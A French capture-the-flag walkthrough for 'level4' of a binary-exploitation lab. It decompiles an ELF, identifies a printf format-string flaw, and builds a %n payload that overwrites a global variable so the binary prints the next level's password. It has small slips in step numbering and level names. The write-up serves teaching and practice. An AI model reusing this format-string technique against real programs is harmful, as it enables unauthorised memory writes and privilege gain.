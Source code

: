 # LEVEL 4
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level5`.

1. Une fois connecté à la VM sur le `level4`, l'on retrouve un fichier `level4` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

    ```sh
    > scp -P 4242 level4@127.0.0.1:level4 /path/on/machine/host
    ```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>

	void p(char *param_1)
    {
        printf(param_1);
    }

	int n(void)
    {
        int m;
        char local_20c[520];

        fgets(local_20c, 512, stdin); # x200 = 512
        p(local_20c);
        if (m == 16930116) { # 0x1025544 = 16930116
            system("/bin/cat /home/user/level5/.pass");
        }
        return EXIT_SUCCESS;
    }

	void main(void)
    {
        return n();
    }
	```

    À partir de ce désassemblage, on en déduit que le programme contient 3 fonctions : la fonction `main` et la fonction `n` qui, tout deux, ne prennent aucun paramètre. En revanche la fonction `p`, elle, prend une chaîne de caractères en paramètre.

    La fonction `main` appelle tout simplement la fonction `n` tandis que la fonction `n` lit une ligne de texte depuis l'entrée standard (`stdin`) dans un tampon `local_20c` et appelle ensuite la fonction `p` en passant cette ligne comme paramètre. La fonction `p` affiche tout simplement le paramètre à l'aide de `printf`. La fonction `n` va ensuite comparer la variable `m`, qui est de nouveau pas définit (qu'on suppose donc être une variable globale), par une valeur spécifique, soit `0x1025544` (`16930116` en décimale). Si cette condition s'avère être vrai, la fonction exécute la commande `système /bin/cat` pour afficher le mot de passe se trouvant dans le fichier `/home/user/level5/.pass`.

    De fait, l'idée ici est similaire à celle utilisée dans le niveau précédent : modifier la valeur de `m` pour rentrer dans la condition `m == 0x1025544` et afficher le mot de passe du niveau suivant.

5. Tout d'abord, nous allons récupérer l'adresse de la variable `m` en utilisant `gdb` sur l'exécutable `level4` et la commande `info variable`.

    ```sh
    > gdb level4
    > info variable
    [...]
		0x08049810  m
	[...]
    ```

6. On va ensuite utiliser, de nouveaux, unes des vulnérabilités de la fonction `prinft` afin d'obtenir l'emplacement de l'adresse à remplacer.

    ```sh
    > python -c "print 'AAAA' + ' %x ' * 24" | ./level4
    AAAA b7ff26b0  bffff794  b7fd0ff4  0  0  bffff758  804848d  bffff550  200  b7fd1ac0  b7ff37d0  41414141  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520
    ```

    On en déduit que :
    - `AAAA`: Le `AAAA` qu'on a injecté en premier ;
    - `41414141`: L'adresse de `AAAA` est a la 12e place.

7. Maintenant, que l'on connaît l'emplacement de l'adresse `AAAA` on peut générer le payload ci-dessous.

    ```sh
    > python -c "print '\x10\x98\x04\x08' + '%16930112u' + '%12\$n'" > /tmp/payload4
    ```

    On a :
    - `\x10\x98\x04\x08` : L'adresse de `m` en format little-endian ;
    - `%16930112u`: On injecte `16930112` caractères en utilisant directement le flag de `%d` ;
    - `%12`: On veut récupérer la valeur de la 12e adresse dans la stack, soit celle de `m` ;
    - `$n`: On compte le nombre de caractère stocké à cette adresse.

    En faisant tout ça, on met la valeur `16930112` dans la variable `m`.

    Warnings : Faire attention aux `"` et `'`, car avec le premier pas besoin de `\` devant `$n` alors qu'avec le second, il y en a besoin.

5. En suite, l'on va utiliser la chaîne de caractère précédemment généré afin d'exploiter les vulnérabilités de l'exécutable `level3`. En exploitant `level3` de cette manière, on s'assure que la variable `m` est bien égale à `16930112` permettant à la condition `m == 0x1025544` d'être vérifiée et d'ainsi pouvoir obtenir le mot de passe pour le niveau suivant.

    ```sh
	> cat /tmp/payload4 - | ./level4
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```

6. On peut à présent passer au niveau supérieur en exécutant la commande `su level5` et en y spécifiant le mot de passe qui vient d'être trouvée.
    ```sh
    > su level5
    Password :
    > 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
    ```
